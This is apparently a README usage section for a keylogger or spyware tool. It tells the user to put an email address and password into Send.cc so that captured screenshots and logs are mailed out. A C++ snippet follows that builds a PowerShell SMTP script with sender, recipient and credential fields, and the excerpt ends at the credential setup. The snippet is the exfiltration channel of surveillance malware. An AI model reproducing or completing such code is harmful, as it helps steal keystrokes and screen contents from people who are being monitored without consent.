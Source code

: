 # USAGE
Edit `Send.cc` file by inserting your email and its password, where screenshots and logs will be sent.

    _powershell = "$EmailFrom = \"<sender's email>\"\n";
    _powershell += "$EmailTo = \"<recipient's email>\"\n";
    _powershell += "$EmailSubject = \"<your subject>\"\n";
    _powershell += "$EmailBody = \"<your body>\"\n";
    _powershell += "$SMTPserver = \"<SMTP Server>\"\n";
    _powershell += "$username = \"<sender's email>\"\n";
    _powershell += "$password = \"<sender's email password>\" | ConvertTo-SecureString -AsPlainText -Force\n";
    _powershell += "$credential = New-Object System.Management.Automation.PSCredential($username, $password)\n";
